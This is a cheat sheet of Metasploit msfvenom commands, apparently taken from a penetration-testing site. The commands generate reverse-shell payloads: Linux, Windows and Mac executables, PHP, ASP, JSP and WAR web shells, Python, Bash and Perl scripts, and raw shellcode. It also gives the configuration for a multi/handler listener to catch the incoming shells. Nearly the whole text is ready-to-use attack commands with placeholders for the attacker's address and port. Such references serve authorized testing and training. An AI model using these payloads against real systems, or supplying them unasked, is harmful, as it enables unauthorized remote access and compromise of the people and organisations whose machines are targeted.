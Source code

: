 https://netsec.ws/?p=331

List payloads
```
msfvenom -l
```
## Binaries
### Linux
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```
### Windows
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```
### Mac
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```
## Web Payloads
### PHP
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
### ASP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```
### JSP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```
### WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```
## Scripting Payloads
### Python
```
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```
### Bash
```
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```
### Perl
```
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```
## Shellcode
For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

### Linux Based Shellcode
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```
### Windows Based Shellcode
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```
## Mac Based Shellcode
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```
# Handlers
Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.
```
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z
```
Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘
